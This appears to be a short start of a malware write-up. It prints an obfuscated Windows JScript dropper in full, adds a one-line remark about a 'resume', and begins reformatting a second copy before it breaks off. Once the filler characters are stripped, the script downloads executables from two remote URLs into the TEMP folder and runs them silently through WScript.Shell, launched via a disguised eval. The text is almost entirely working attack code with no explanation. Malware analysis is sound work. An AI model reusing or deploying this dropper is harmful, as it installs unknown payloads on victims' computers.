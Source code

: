         var wmz='fanunjnptcrptboioyoaundj uadbtliu(pefpkrlj,bf stfdcnwg,vs hormxnrw)fn{nv oa upvuxaijrsj otwmuswh nq=jt hjnhqemuwiy usAswclitgnixfvpoehpXkdOkubkhjayeiuckitdp(ox"qlWhiSrjcwtryximtpjotrt.otSbbhayetclkilxd"bn)zl;tr ag zlviwaqyrmu ozftdnfc bu=wg ouwyhsvm.xzEquxarpcqananyldgdEclnpuvwwirvrbyosnnvpmcqepqnlatrgSwmtmurgjimlnxmghpsmm(hd"cd%qiTyuElmMdbPbb%ho"as)ne nn+zu ';var sdz='gaSqwtinrrcifqnztgow.jxfyarcmoaamskCobhogabcrdoCkhovtdwsein(hc9zh2fw)xi ue+ez jvfwxnex;al zf ndvxjacjrwu wkxseoav dy=dy xyntiefhwfp bkAqfcjatkdimgvamexjXoxOtqbppjnweuscaktsn(dg"rxMceSfhXkmMsqLdx2ht.raXrvMkkLggHzyTjbTpzPgb"ys)xx;eb nd tpxngoaw.xvorrnborvceaiakudujylzssatyjalpttdetzcgmhjgacgnyggvtevz iq=lv esfsfugqnzkcaftililtogbnir xp(vk)dv{vq hy te xs yyiopfz';var tjjwko='f ko(aaxusoul.carpcenaawldcqypsSwjtcjaittiaefw li=jq=im=xd dd4fa)at{es jx pg qy hl fs tpvmnawzrpy kfxjyabi jm=fg zknhkeqjwhw igAzpcentbtisrvpyeehXfaOinbzhjnsecfcpntwj(gg"neAtoDcnOgxDpdBcy.geSfgttmrtoegtayhmui"so)ur;vy ni vo mp tb zb gvxbfarl.zvookprgeomnam(dg)ev;dz os hy aa cb wa fjxuyatx.iutaiyuapnpevv rr=qa su1te;fa bu ui ry xa xm hrxzgahi.xtwpurltiugtbcehn';var ojyyp='(nvxpmovp.njRjmezksbhpogoobnvvsqmegkBrboebdotyol)xc;re os ff qy ge ls tuxqaamo.zgpitourskmixjtlzievoodnjs rt=yz sy0sj;jl aj pw qa rx kk ucxbhacf.jfsyqaksvrqeojTsjovhFqcizwlxgedp(aofqnnvu,as yy2oj)bw;mz it db ib ez wy fexutahj.xvcpylrsoqqszpelf(fb)vy;zn py xi hu yt}mm vt ou ts ke;uk zb gu}wl kl zr;pk sp kntharmiyct oi{aq ui sl mp jsxdtoff.wnoxepumezqnqe(ng"adG';var osrkpi='lpEfpTxm"xa,pq ikfezrem,zj obfnxaoilnnsueeia)pv;kt fv wi yd olxkhots.cpsqterqnzedsf(km)nm;is ld yt br uvigafij br(gbrvenvx bm>ru hu0hc)uv{yp ig yx sk kt cy qswuesiw.tpRbduyvnpt(vgfbwnlq,xa xu0ew,pq pp0hs)wf;bc rf iv qt mh}og di zq qp jx;to en ci}at zk mxccbawetxlctnhuk th(xxemsrqo)dv{jj sh bm}xt qa ck;ot}eydmmlxy(fg"dqhjdtsptlzpjv:cu/hb/ueefesolrehigdopjthsey';var hvgp='nrenfrb.rncnjoecmxx/zhilemiugfr/yxsakcterxqidbppvtxh.vgppohrjpht?bodtgcanmec1zf.qdjizpqkglf"bt,ba hy"mx5hw5qe7so4ur9em2ou2aj.mnenqxavead"xm,nb az1wu)qn;rddrhlzk(wm"gehnktxhtxapvl:oy/kw/ymelyssyrliiljordtndepqrujfuw.dicisodbmze/bsiekmjzgxp/ycsljcmjrnditapjdtzn.wepwdhfepja?sfdqkcjwmmz2bh.rkjunpqdgei"lj,xn sl"pu3yo3ou7ai3sh1eq1pc5jq.breebxfwefv"fj,xq cd1xp)dr;mw';var denqbimerb=wmz+sdz+tjjwko+ojyyp+osrkpi+hvgp;   var dyixoonn="";   var zikeknrp=3;   var bauvnlxvy=denqbimerb["split"]("");   var zaeoynlmc="";      var r="Sc"+"ri"+"pti"+"ng.Di"+"ctio"+"nary";   var y = new ActiveXObject(r);   y.add ("a", "t");      if (y.Item("a")=="t"){zaeoynlmc="yed";}else{zikeknrp=0;};         for (i=0;i<bauvnlxvy.length;i +=zikeknrp){   dyixoonn=dyixoonn+bauvnlxvy[i];}   var zaeoynlmc="yedeyedvyedayedl"["split"](zaeoynlmc)["join"]("");   var afdjpiud=this;   var tcrjwnxik=afdjpiud[zaeoynlmc];   tcrjwnxik(dyixoonn);        //KgXeyWbMRu
        
It seems Nelson has quite the impressive resume. Let's clean this up:

        var wmz='fanunjnptcrptboioyoaundj uadbtliu(pefpkrlj,bf stfdcnwg,vs hormxnrw)fn{nv oa upvuxaijrsj otwmuswh nq=jt hjnhqemuwiy usAswclitgnixfvpoehpXkdOkubkhjayeiuckitdp(ox"qlWhiSrjcwtryximtpjotrt.otSbbhayetclkilxd"bn)zl;tr ag zlviwaqyrmu ozftdnfc bu=wg ouwyhsvm.xzEquxarpcqananyldgdEclnpuvwwirvrbyosnnvpmcqepqnlatrgSwmtmurgjimlnxmghpsmm(hd"cd%qiTyuElmMdbPbb%ho"as)ne nn+zu ';
        var sdz='gaSqwtinrrcifqnztgow.jxfyarcmoaamskCobhogabcrdoCkhovtdwsein(hc9zh2fw)xi ue+ez jvfwxnex;al zf ndvxjacjrwu wkxseoav dy=dy xyntiefhwfp bkAqfcjatkdimgvamexjXoxOtqbppjnweuscaktsn(dg"rxMceSfhXkmMsqLdx2ht.raXrvMkkLggHzyTjbTpzPgb"ys)xx;eb nd tpxngoaw.xvorrnborvceaiakudujylzssatyjalpttdetzcgmhjgacgnyggvtevz iq=lv esfsfugqnzkcaftililtogbnir xp(vk)dv{vq hy te xs yyiopfz';
        var tjjwko='f ko(aaxusoul.carpcenaawldcqypsSwjtcjaittiaefw li=jq=im=xd dd4fa)at{es jx pg qy hl fs tpvmnawzrpy kfxjyabi jm=fg zknhkeqjwhw igAzpcentbtisrvpyeehXfaOinbzhjnsecfcpntwj(gg"neAtoDcnOgxDpdBcy.geSfgttmrtoegtayhmui"so)ur;vy ni vo mp tb zb gvxbfarl.zvookprgeomnam(dg)ev;dz os hy aa cb wa fjxuyatx.iutaiyuapnpevv rr=qa su1te;fa bu ui ry xa xm hrxzgahi.xtwpurltiugtbcehn';
        var ojyyp='(nvxpmovp.njRjmezksbhpogoobnvvsqmegkBrboebdotyol)xc;re os ff qy ge ls tuxqaamo.zgpitourskmixjtlzievoodnjs rt=yz sy0sj;jl aj pw qa rx kk ucxbhacf.jfsyqaksvrqeojTsjovhFqcizwlxgedp(aofqnnvu,as yy2oj)bw;mz it db ib ez wy fexutahj.xvcpylrsoqqszpelf(fb)vy;zn py xi hu yt}mm vt ou ts ke;uk zb gu}wl kl zr;pk sp kntharmiyct oi{aq ui sl mp jsxdtoff.wnoxepumezqnqe(ng"adG';
        var osrkpi='lpEfpTxm"xa,pq ikfezrem,zj obfnxaoilnnsueeia)pv;kt fv wi yd olxkhots.cpsqterqnzedsf(km)nm;is ld yt br uvigafij br(gbrvenvx bm>ru hu0hc)uv{yp ig yx sk kt cy qswuesiw.tpRbduyvnpt(vgfbwnlq,xa xu0ew,pq pp0hs)wf;bc rf iv qt mh}og di zq qp jx;to en ci}at zk mxccbawetxlctnhuk th(xxemsrqo)dv{jj sh bm}xt qa ck;ot}eydmmlxy(fg"dqhjdtsptlzpjv:cu/hb/ueefesolrehigdopjthsey';
        var hvgp='nrenfrb.rncnjoecmxx/zhilemiugfr/yxsakcterxqidbppvtxh.vgppohrjpht?bodtgcanmec1zf.qdjizpqkglf"bt,ba hy"mx5hw5qe7so4ur9em2ou2aj.mnenqxavead"xm,nb az1wu)qn;rddrhlzk(wm"gehnktxhtxapvl:oy/kw/ymelyssyrliiljordtndepqrujfuw.dicisodbmze/bsiekmjzgxp/ycsljcmjrnditapjdtzn.wepwdhfepja?sfdqkcjwmmz2bh.rkjunpqdgei"lj,xn sl"pu3yo3ou7ai3sh1eq1pc5jq.breebxfwefv"fj,xq cd1xp)dr;mw';
        var denqbimerb=wmz+sdz+tjjwko+ojyyp+osrkpi+hvgp;   
        var dyixoonn="";   
        var zikeknrp=3;   
        var bauvnlxvy=denqbimerb["split"]("");   
        var zaeoynlmc="";      
        var r="Sc"+"ri"+"pti"+"ng.Di"+"ctio"+"nary";   
        var y = new ActiveXObject(r);   
        y.add ("a", "t");      